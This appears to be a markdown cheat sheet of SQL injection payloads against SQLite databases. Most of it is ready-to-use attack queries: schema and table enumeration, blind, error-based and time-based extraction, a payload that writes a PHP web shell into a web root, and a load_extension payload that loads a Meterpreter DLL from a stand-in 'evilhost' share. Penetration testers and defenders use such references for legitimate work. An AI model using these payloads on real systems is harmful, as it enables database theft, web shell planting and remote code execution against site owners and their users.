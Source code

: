 # SQLite Injection

> SQLite Injection  is a type of security vulnerability that occurs when an attacker can insert or "inject" malicious SQL code into SQL queries executed by an SQLite database. This vulnerability arises when user inputs are integrated into SQL statements without proper sanitization or parameterization, allowing attackers to manipulate the query logic. Such injections can lead to unauthorized data access, data manipulation, and other severe security issues. 


## Summary

* [SQLite Comments](#sqlite-comments)
* [SQLite Enumeration](#sqlite-enumeration)
* [SQLite String](#sqlite-string)
    * [SQLite String Methodology](#sqlite-string-methodology)
* [SQLite Blind](#sqlite-blind)
    * [SQLite Blind Methodology](#sqlite-blind-methodology)
    * [SQLite Blind With Substring Equivalent](#sqlite-blind-with-substring-equivalent)
* [SQlite Error Based](#sqlite-error-based)
* [SQlite Time Based](#sqlite-time-based)
* [SQlite Remote Code Execution](#sqlite-remote-code-execution)
    * [Attach Database](#attach-database)
    * [Load_extension](#load_extension)
* [SQLite File Manipulation](#SQLite-file-manipulation)
    * [SQLite Read File](#SQLite-read-file)
    * [SQLite Write File](#SQLite-write-file)
* [References](#references)


## SQLite Comments

| Description         | Comment |
| ------------------- | ------- |
| Single-Line Comment | `--`    |
| Multi-Line Comment  | `/**/`  |


## SQLite Enumeration

| Description   | SQL Query |
| ------------- | ----------------------------------------- |
| DBMS version  | `select sqlite_version();`                |


## SQLite String

### SQLite String Methodology

| Description             | SQL Query                                 |
| ----------------------- | ----------------------------------------- | 
| Extract Database Structure                           | `SELECT sql FROM sqlite_schema` |
| Extract Database Structure (sqlite_version > 3.33.0) | `SELECT sql FROM sqlite_master` |
| Extract Table Name  | `SELECT tbl_name FROM sqlite_master WHERE type='table'` |
| Extract Table Name  | `SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'` |
| Extract Column Name | `SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'` |
| Extract Column Name | `SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');` |
| Extract Column Name | `SELECT MAX(sql) FROM sqlite_master WHERE tbl_name='<TABLE_NAME>'` |
| Extract Column Name | `SELECT name FROM PRAGMA_TABLE_INFO('<TABLE_NAME>')` |


## SQLite Blind

### SQLite Blind Methodology

| Description             | SQL Query                                 |
| ----------------------- | ----------------------------------------- | 
| Count Number Of Tables  | `AND (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' ) < number_of_table` | 
| Enumerating Table Name  | `AND (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0)=table_name_length_number` | 
| Extract Info            | `AND (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) > HEX('some_char')` | 
| Extract Info (order by) | `CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) = HEX('some_char') THEN <order_element_1> ELSE <order_element_2> END` | 


### SQLite Blind With Substring Equivalent

| Function    | Example                                   |
| ----------- | ----------------------------------------- | 
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)`  | 
| `SUBSTR`    | `SUBSTR('foobar', <START>, <LENGTH>)`     | 


## SQlite Error Based

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```


## SQlite Time Based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
AND 1337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```


## SQLite Remote Code Execution

### Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

### Load_extension

:warning: This component is disabled by default.

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```


## SQLite File Manipulation

### SQLite Read File

SQLite does not support file I/O operations by default.


### SQLite Write File

```sql
SELECT writefile('/path/to/file', column_name) FROM table_name
```


## References

* [Injecting SQLite database based application - Manish Kishan Tanwar - February 14, 2017](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
* [SQLite Error Based Injection for Enumeration - Rio Asmara Suryadi - February 6, 2021](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
* [SQLite3 Injection Cheat sheet - Nickosaurus Hax - May 31, 2012](https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet)

